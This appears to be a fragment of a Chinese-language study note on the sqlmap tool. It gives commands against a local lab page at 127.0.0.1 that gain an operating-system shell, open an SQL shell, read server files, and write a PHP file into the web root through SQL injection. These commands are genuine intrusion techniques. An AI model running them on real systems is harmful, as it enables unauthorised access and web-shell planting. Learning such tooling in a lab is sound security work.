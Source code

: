 执行系统命令

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --os-shell

--os-shell
#执行系统命令——自己探测其根目录地址，写入一个php文件，然后让php文件帮我们执行某些命令——可能失败
```

执行sql语句

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --sql-shell

--sql-shell
#执行sql语句
```

读取文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-read="C:\phpStudy\WWW\index.php"

--file-read="C:\phpStudy\WWW\index.php"
#读取文件
```

写入文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"

--file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"
#写入文件
```





# sqlmap使用

环境是Python2.7（linux）



## 关于linux基础配置：

linux里：

打开Python环境和退出：

![image-20220118183258182](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/sqlmap%E7%9A%84%E4%BD%BF%E7%94%A8.assets/image-20220118183258182.png)
